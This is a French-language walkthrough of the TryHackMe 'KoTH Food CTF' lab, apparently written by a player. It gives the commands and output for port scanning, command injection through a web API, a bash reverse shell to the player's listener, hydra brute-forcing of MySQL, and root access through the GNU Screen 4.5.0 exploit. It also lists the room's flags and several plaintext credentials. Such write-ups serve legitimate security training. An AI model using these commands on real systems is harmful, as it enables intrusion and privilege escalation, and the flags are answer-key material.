




# KoTH Food CTF #

## Task 1 FoodCTF ##

**Get all 8 flags.**

```bash
tim@kali:~/Bureau/tryhackme$ sudo sh -c "echo '10.10.76.241 kothfood.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 
tim@kali:~/Bureau/tryhackme$ sudo nmap -A kothfood.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-26 15:50 CEST
Nmap scan report for kothfood.thm (10.10.76.241)
Host is up (0.034s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 28:0c:0c:d9:5a:7d:be:e6:f4:3c:ed:10:51:49:4d:19 (RSA)
|   256 17:ce:03:3b:bb:20:78:09:ab:76:c0:6d:8d:c4:df:51 (ECDSA)
|_  256 07:8a:50:b5:5b:4a:a7:6c:c8:b3:a1:ca:77:b9:0d:07 (ED25519)
3306/tcp  open  mysql   MySQL 5.7.29-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.29-0ubuntu0.18.04.1
|   Thread ID: 4
|   Capabilities flags: 65535
|   Some Capabilities: Support41Auth, IgnoreSpaceBeforeParenthesis, SupportsTransactions, IgnoreSigpipes, ODBCClient, DontAllowDatabaseTableColumn, LongPassword, SwitchToSSLAfterHandshake, SupportsLoadDataLocal, LongColumnFlag, SupportsCompression, Speaks41ProtocolNew, Speaks41ProtocolOld, FoundRows, ConnectWithDatabase, InteractiveClient, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: \x05f\x156j!}\x7Fvazh\x0C fjs\x02TY
|_  Auth Plugin Name: mysql_native_password
| ssl-cert: Subject: commonName=MySQL_Server_5.7.29_Auto_Generated_Server_Certificate
| Not valid before: 2020-03-19T17:21:30
|_Not valid after:  2030-03-17T17:21:30
|_ssl-date: TLS randomness does not represent time
9999/tcp  open  abyss?
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Date: Mon, 26 Jul 2021 13:51:07 GMT
|     Content-Length: 4
|     Content-Type: text/plain; charset=utf-8
|     king
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|_    Request
15065/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Host monitoring
16109/tcp open  unknown
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Date: Mon, 26 Jul 2021 13:51:07 GMT
|     Content-Type: image/jpeg
|     JFIF
|     #*%%*525EE\xff
|     #*%%*525EE\xff
|     $3br
|     %&'()*456789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
|     &'()*56789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
|     Y$?_
|     qR]$Oyk
|_    |$o.
46969/tcp open  telnet  Linux telnetd
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port9999-TCP:V=7.91%I=7%D=7/26%Time=60FEBDC9%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,78,"HTTP/1\.0\x20200\x20OK\r\nDate:\x20Mon,\x2026\x20Jul\x2020
SF:21\x2013:51:07\x20GMT\r\nContent-Length:\x204\r\nContent-Type:\x20text/
SF:plain;\x20charset=utf-8\r\n\r\nking")%r(HTTPOptions,78,"HTTP/1\.0\x2020
SF:0\x20OK\r\nDate:\x20Mon,\x2026\x20Jul\x202021\x2013:51:07\x20GMT\r\nCon
SF:tent-Length:\x204\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\n\
SF:r\nking")%r(FourOhFourRequest,78,"HTTP/1\.0\x20200\x20OK\r\nDate:\x20Mo
SF:n,\x2026\x20Jul\x202021\x2013:51:07\x20GMT\r\nContent-Length:\x204\r\nC
SF:ontent-Type:\x20text/plain;\x20charset=utf-8\r\n\r\nking")%r(GenericLin
SF:es,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plai
SF:n;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Reques
SF:t")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Typ
SF:e:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x
SF:20Bad\x20Request")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\
SF:r\n400\x20Bad\x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\
SF:x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnecti
SF:on:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"
SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20c
SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(T
SF:LSSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x2
SF:0text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad
SF:\x20Request")%r(Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCont
SF:ent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r
SF:\n400\x20Bad\x20Request")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Re
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x2
SF:0400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8
SF:\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(SIPOptions,67
SF:,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x2
SF:0charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port16109-TCP:V=7.91%I=7%D=7/26%Time=60FEBDC9%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20
SF:text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\
SF:x20Request")%r(GetRequest,2DDC,"HTTP/1\.0\x20200\x20OK\r\nDate:\x20Mon,
SF:\x2026\x20Jul\x202021\x2013:51:07\x20GMT\r\nContent-Type:\x20image/jpeg
SF:\r\n\r\n\xff\xd8\xff\xe0\0\x10JFIF\0\x01\x01\x01\0H\0H\0\0\xff\xdb\0C\0
SF:\x02\x03\x03\x03\x04\x03\x04\x05\x05\x04\x06\x06\x06\x06\x06\x08\x08\x0
SF:7\x07\x08\x08\r\t\n\t\n\t\r\x13\x0c\x0e\x0c\x0c\x0e\x0c\x13\x11\x14\x11
SF:\x0f\x11\x14\x11\x1e\x18\x15\x15\x18\x1e#\x1d\x1c\x1d#\*%%\*525EE\\\xff
SF:\xdb\0C\x01\x02\x03\x03\x03\x04\x03\x04\x05\x05\x04\x06\x06\x06\x06\x06
SF:\x08\x08\x07\x07\x08\x08\r\t\n\t\n\t\r\x13\x0c\x0e\x0c\x0c\x0e\x0c\x13\
SF:x11\x14\x11\x0f\x11\x14\x11\x1e\x18\x15\x15\x18\x1e#\x1d\x1c\x1d#\*%%\*
SF:525EE\\\xff\xc0\0\x11\x08\x03\x84\x05F\x03\x01\"\0\x02\x11\x01\x03\x11\
SF:x01\xff\xc4\0\x1f\0\0\x01\x05\x01\x01\x01\x01\x01\x01\0\0\0\0\0\0\0\0\x
SF:01\x02\x03\x04\x05\x06\x07\x08\t\n\x0b\xff\xc4\0\xb5\x10\0\x02\x01\x03\
SF:x03\x02\x04\x03\x05\x05\x04\x04\0\0\x01}\x01\x02\x03\0\x04\x11\x05\x12!
SF:1A\x06\x13Qa\x07\"q\x142\x81\x91\xa1\x08#B\xb1\xc1\x15R\xd1\xf0\$3br\x8
SF:2\t\n\x16\x17\x18\x19\x1a%&'\(\)\*456789:CDEFGHIJSTUVWXYZcdefghijstuvwx
SF:yz\x83\x84\x85\x86\x87\x88\x89\x8a\x92\x93\x94\x95\x96\x97\x98\x99\x9a\
SF:xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba
SF:\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xd
SF:a\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xf1\xf2\xf3\xf4\xf5\xf6\xf7\x
SF:f8\xf9\xfa\xff\xc4\0\x1f\x01\0\x03\x01\x01\x01\x01\x01\x01\x01\x01\x01\
SF:0\0\0\0\0\0\x01\x02\x03\x04\x05\x06\x07\x08\t\n\x0b\xff\xc4\0\xb5\x11\0
SF:\x02\x01\x02\x04\x04\x03\x04\x07\x05\x04\x04\0\x01\x02w\0\x01\x02\x03\x
SF:11\x04\x05!1\x06\x12AQ\x07aq\x13\"2\x81\x08\x14B\x91\xa1\xb1\xc1\t#3R\x
SF:f0\x15br\xd1\n\x16\$4\xe1%\xf1\x17\x18\x19\x1a&'\(\)\*56789:CDEFGHIJSTU
SF:VWXYZcdefghijstuvwxyz\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x92\x93\x94\x
SF:95\x96\x97\x98\x99\x9a\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xb2\xb3\xb4\
SF:xb5\xb6\xb7\xb8\xb9\xba\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xd2\xd3\xd4
SF:\xd5\xd6\xd7\xd8\xd9\xda\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xf2\xf3\xf
SF:4\xf5\xf6\xf7\xf8\xf9\xfa\xff\xda\0\x0c\x03\x01\0\x02\x11\x03\x11\0\?\0
SF:\xfa\x96F\xf3/\x0f\xcd\xc0\xdcp\x7f\*\x97!\x1e\xd4p\x7f\|\x83\xdf\x8c\x
SF:b7\xf4\xa4\xb4\x8e=\x92\xc9\xce\xec\xe2\x90\xc6Zks\x91\x85Y\$\?_\xba\+\
SF:x81\x1e\xa9E\xees31\xe0\x02\xccA\xfe\x20\xa35\x90\x1c\xff\0fC\x95\x1b\x
SF:88\x047L\xe4\xf4\x1f\x9d\^\x92=\xdez\?\xded!~\x8eqR\]\$Oyk\x02\x81\x85\
SF:xc1\xc9\xe8\0\xed\xfaS\x11\|\x05q\x20\xee\xbbT\x0fM\xc6\xa3i\xb2\x97\x9
SF:37\x18\xca\xae:\xd6t\x0e\xdb\xe3\xf4/#\x96\xf4\t\x92\)\xad\xb7\xca\x89\
SF:x03}\xf9@l\xfbsLh\xcb\xba@\xb7d\x86%\x96\xdc\*\xfb\x175\x8b\|\$o\.\xd9N
SF:\xe1\xf2n\xfa\x97\x15\xbdrA\x86G\r\x9c\xce\xaa9\xfe\xe7ZM2\x08");
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%), Linux 2.6.32 (92%), Linux 3.1 - 3.2 (92%), Linux 3.11 (92%), Linux 3.2 - 4.9 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   33.34 ms 10.9.0.1
2   33.70 ms kothfood.thm (10.10.76.241)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.18 seconds

```

On énumère les ports et on remarque : 
Le service ssh sur le port 22.  
Le service open mysql sur le port 3306.  
Le service inconnu qui affiche king sur le port 9999. 
Le service http sur le port 15065.  
Le service inconnu qui affiche une image sur le 16109.  



Sur la page on nous dit que le site web est en maintenance.   
Et un nom Dan.   

```bash
tim@kali:~/Bureau/tryhackme$ gobuster dir -u http://kothfood.thm:15065 -w /usr/share/dirb/wordlists/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://kothfood.thm:15065
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/26 16:08:33 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 301) [Size: 0] [--> ./]
/monitor              (Status: 301) [Size: 0] [--> monitor/]
                                                            
===============================================================
2021/07/26 16:08:49 Finished
===============================================================
```

Un lien \/monitor est trouvé.  



On se retrouve sur un site qui demande une adresse pour faire un ping.  



On voit que la gestion du ping est gérée par un script javascript mais qu'il obscurcie.  



On remarque que une url POST est faite pour passer une commande.   

```bash
tim@kali:~/Bureau/tryhackme$ curl kothfood.thm:15065/api/cmd -X POST -d "uname -a;pwd;ls"
Linux foodctf 4.15.0-91-generic #92-Ubuntu SMP Fri Feb 28 11:09:48 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
/home/bread
flag
main
main.go
resources
```

On peut passer des commandes sans problème.   

```bash
tim@kali:~/Bureau/tryhackme$ nc -lvnp 1234
listening on [any] 1234 ...
```

Sur un autre terminal nous allons écouter le port 1234.   

```bash
tim@kali:~/Bureau/tryhackme$ curl kothfood.thm:15065/api/cmd -X POST -d "bash -i >& /dev/tcp/10.9.228.66/1234 0>&1"
```

On exécute un revers shell.   

```bash
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.76.241] 45922
bash: cannot set terminal process group (797): Inappropriate ioctl for device
bash: no job control in this shell
bread@foodctf:~$ ls
ls
flag
main
main.go
resources
bread@foodctf:~$ cat flag	

cat flag
cat: flag: Permission denied

bread@foodctf:/home$ ls
ls
bread
food
pasta
ramen
tryhackme
bread@foodctf:/home$ 

bread@foodctf:/home/food$ ls -al
ls -al
total 40
drwxr-xr-x 5 food food 4096 Mar 30  2020 .
drwxr-xr-x 7 root root 4096 Mar 28  2020 ..
-rw-r--r-- 1 food food  220 Mar 19  2020 .bash_logout
-rw-r--r-- 1 food food 3771 Mar 19  2020 .bashrc
drwx------ 2 food food 4096 Mar 19  2020 .cache
-rw-rw-r-- 1 food food   38 Mar 28  2020 .flag
drwx------ 3 food food 4096 Mar 19  2020 .gnupg
drwxrwxr-x 3 food food 4096 Mar 19  2020 .local
-rw------- 1 food food   23 Mar 19  2020 .mysql_history
-rw-r--r-- 1 food food  815 Mar 28  2020 .profile
bread@foodctf:/home/food$ 

bread@foodctf:/home/food$ cat .flag	
cat .flag 
thm{58a3cb46855af54d0660b34fd20a04c1}
```

Dans l'utilisateur food on trouve notre premier flag.

Réponse : thm{58a3cb46855af54d0660b34fd20a04c1}   

```


```bash
tim@kali:~/Bureau/tryhackme$ hydra -l root -P ./pass.txt  kothfood.thm mysql 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-26 18:24:40
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 23 login tries (l:1/p:23), ~6 tries per task
[DATA] attacking mysql://kothfood.thm:3306/
[3306][mysql] host: kothfood.thm   login: root   password: root
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-07-26 18:24:50
```

On brute force le mot de passe mysql.   
Le mot de passe est : root.   

```bash
tim@kali:~/Bureau/tryhackme$ mysql -h kothfood.thm -u root -p 
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 12
Server version: 5.7.29-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> 

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| users              |
+--------------------+
5 rows in set (0.040 sec)
MySQL [(none)]> use users;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

MySQL [users]> show tables;
+-----------------+
| Tables_in_users |
+-----------------+
| User            |
+-----------------+
1 row in set (0.035 sec)
MySQL [users]> select * from User;

+----------+---------------------------------------+
| username | password                              |
+----------+---------------------------------------+
| ramen    | noodlesRTheBest                       |
| flag     | thm{2f30841ff8d9646845295135adda8332} |
+----------+---------------------------------------+
2 rows in set (0.034 sec)

```

On se connect à mysql.  
On regarde la base de données.  
On sélectionne la base de données User.  
Et on regarde les mots de passe.

On trouve un flag : thm{2f30841ff8d9646845295135adda8332}    

Et un identifiant :  
Utilisateur : ramen  
Mot de passe : noodlesRTheBest 

```bash
tim@kali:~/Bureau/tryhackme$ ssh ramen@kothfood.thm
The authenticity of host 'kothfood.thm (10.10.202.39)' can't be established.
ECDSA key fingerprint is SHA256:N7ASA0s9oqLPm9OT5QAEpcMYTqs2b3BFgpftASit74s.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'kothfood.thm,10.10.202.39' (ECDSA) to the list of known hosts.
ramen@kothfood.thm's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jul 26 16:34:46 UTC 2021

  System load:  0.08              Processes:           92
  Usage of /:   43.7% of 9.78GB   Users logged in:     0
  Memory usage: 65%               IP address for eth0: 10.10.202.39
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Sat Mar 21 00:20:20 2020
ramen@foodctf:/home$ cd ramen
ramen@foodctf:~$ cd /home
ramen@foodctf:/home$ ls
bread  food  pasta  ramen  tryhackme
ramen@foodctf:/home/bread$ cat flag
thm{7baf5aa8491a4b7b1c2d231a24aec575}
```
On a un autre drapeau : thm{7baf5aa8491a4b7b1c2d231a24aec575}  


```bash
ramen@foodctf:/home/bread$ find / -perm -4000 2> /dev/null
/bin/ping
/bin/su
/bin/umount
/bin/mount
/bin/fusermount
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/pkexec
/usr/bin/at
/usr/bin/vim.basic
/usr/bin/passwd
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/newgidmap
/usr/bin/screen-4.5.0
/usr/bin/chfn
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/telnetlogin
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/snap/core/7270/bin/mount
/snap/core/7270/bin/ping
/snap/core/7270/bin/ping6
/snap/core/7270/bin/su
/snap/core/7270/bin/umount
/snap/core/7270/usr/bin/chfn
/snap/core/7270/usr/bin/chsh
/snap/core/7270/usr/bin/gpasswd
/snap/core/7270/usr/bin/newgrp
/snap/core/7270/usr/bin/passwd
/snap/core/7270/usr/bin/sudo
/snap/core/7270/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/7270/usr/lib/openssh/ssh-keysign
/snap/core/7270/usr/lib/snapd/snap-confine
/snap/core/7270/usr/sbin/pppd
/snap/core/8689/bin/mount
/snap/core/8689/bin/ping
/snap/core/8689/bin/ping6
/snap/core/8689/bin/su
/snap/core/8689/bin/umount
/snap/core/8689/usr/bin/chfn
/snap/core/8689/usr/bin/chsh
/snap/core/8689/usr/bin/gpasswd
/snap/core/8689/usr/bin/newgrp
/snap/core/8689/usr/bin/passwd
/snap/core/8689/usr/bin/sudo
/snap/core/8689/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8689/usr/lib/openssh/ssh-keysign
/snap/core/8689/usr/lib/snapd/snap-confine
/snap/core/8689/usr/sbin/pppd
```

On trouve screen-4.5.0 qui possède une faile.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ searchsploit screen 4.5.0
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation                                                                                                                                                               | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                                                                                                                                                         | linux/local/41152.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------

tim@kali:~/Bureau/tryhackme/write-up$ cp /usr/share/exploitdb/exploits/linux/local/41154.sh ./
tim@kali:~/Bureau/tryhackme/write-up$ dos2unix 41154.sh 
dos2unix: conversion du fichier 41154.sh au format Unix…

tim@kali:~/Bureau/tryhackme/write-up$ scp ./41154.sh ramen@kothfood.thm:.
ramen@kothfood.thm's password: 
41154.sh                 

ramen@foodctf:~$ ./41154.sh 
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function ‘dropshell’:
/tmp/libhax.c:7:5: warning: implicit declaration of function ‘chmod’; did you mean ‘chroot’? [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^~~~~
     chroot
/tmp/rootshell.c: In function ‘main’:
/tmp/rootshell.c:3:5: warning: implicit declaration of function ‘setuid’; did you mean ‘setbuf’? [-Wimplicit-function-declaration]
     setuid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:4:5: warning: implicit declaration of function ‘setgid’; did you mean ‘setbuf’? [-Wimplicit-function-declaration]
     setgid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’; did you mean ‘setbuf’? [-Wimplicit-function-declaration]
     seteuid(0);
     ^~~~~~~
     setbuf
/tmp/rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
     setegid(0);
     ^~~~~~~
/tmp/rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^~~~~~
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-ramen.

# whoami
root
```

On copie l'exploit dans la michine cible, on l'exécute.  

```bash
# cd /root/
# ls
flag  king.txt	koth
# cat flag
thm{9f1ee18d3021d135b03b943cc58f34db}
```

Dans le répertoire root on trouve un autre flag : thm{9f1ee18d3021d135b03b943cc58f34db}

```bash
# cd tryhackme
# ls
flag7  img  img.jpg
# cat flag7
thm{5a926ab5d3561e976f4ae5a7e2d034fe}

# cd /var
# cat flag.txt
thm{0c48608136e6f8c86aecdb5d4c3d7ba8}
```

Il y a un autre flag dans tryhackme et var.  

```bash
# find / -name *flag* -type f -exec grep -E "thm{" '{}' \; 2>/dev/null                                             
thm{9f1ee18d3021d135b03b943cc58f34db}
thm{5a926ab5d3561e976f4ae5a7e2d034fe}
thm{7baf5aa8491a4b7b1c2d231a24aec575}
thm{58a3cb46855af54d0660b34fd20a04c1}
thm{0c48608136e6f8c86aecdb5d4c3d7ba8}
```

Il y une méthode plus simple pour avoir les flags si ont connais un morceau du flag.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://kothfood.thm:16109/
--2021-07-26 19:24:22--  http://kothfood.thm:16109/
Résolution de kothfood.thm (kothfood.thm)… 10.10.202.39
Connexion à kothfood.thm (kothfood.thm)|10.10.202.39|:16109… connecté.
requête HTTP transmise, en attente de la réponse… 200 OK
Taille : non indiqué [image/jpeg]
Sauvegarde en : « index.html »

index.html                                                      [ <=>                                                                                                                                      ] 372,38K  1,85MB/s    ds 0,2s    

2021-07-26 19:24:23 (1,85 MB/s) - « index.html » sauvegardé [381312]

tim@kali:~/Bureau/tryhackme/write-up$ file index.html 
index.html: JPEG image data, JFIF standard 1.01, resolution (DPI), density 72x72, segment length 16, baseline, precision 8, 1350x900, components 3

tim@kali:~/Bureau/tryhackme/write-up$ mv index.html image.jpg

tim@kali:~/Bureau/tryhackme/write-up$ steghide extract -sf image.jpg 
Entrez la passphrase: 
le fichier "creds.txt" existe d�j�. l'�craser ? (o/n) o
�criture des donn�es extraites dans "creds.txt".

tim@kali:~/Bureau/tryhackme/write-up$ cat creds.txt
pasta:pastaisdynamic
```

Dans l'image il y a des identifiants : 
utilisateur : pasta  
mot de pase : pastaisdynamic 

Je ne trouve que 6 flags sur 8.   

